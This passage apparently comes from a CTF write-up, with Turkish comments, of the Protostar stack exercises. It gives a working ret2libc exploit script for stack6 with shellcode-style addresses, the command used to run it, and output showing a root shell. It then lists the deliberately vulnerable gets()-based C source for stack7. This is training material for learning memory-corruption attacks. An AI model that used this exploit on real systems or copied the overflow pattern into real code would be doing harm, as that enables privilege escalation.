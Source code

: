 `"/bin/sh"` = 0xb7fb63bf

```python
# exploit6.py
garbage = "A" * 80
system = "\xb0\xff\xec\xb7"
return_after_system = "\xEF\xBE\xAD\xDE"
# Fonksiyonun işi bitince döneceği yer önemsiz. Amacımız: shell almak.
bin_sh = "\xbf\x63\xfb\xb7"
print garbage + system + return_after_system + bin_sh
```

```bash
python exploit6.py > exploit6
```

```bash
cat /tmp/exploit6 - |  ./stack6
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

# Stack 7

https://exploit-exercises.com/protostar/stack7/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
    char buffer[64];
    unsigned int ret;

    printf("input path please: "); fflush(stdout);

    gets(buffer);

    ret = __builtin_return_address(0);

    if((ret & 0xb0000000) == 0xb0000000) {
        printf("bzzzt (%p)\n", ret);
        _exit(1);
    }

    printf("got path %s\n", buffer);
    return strdup(buffer);
}

int main(int argc, char **argv)
{
    getpath();
}
```
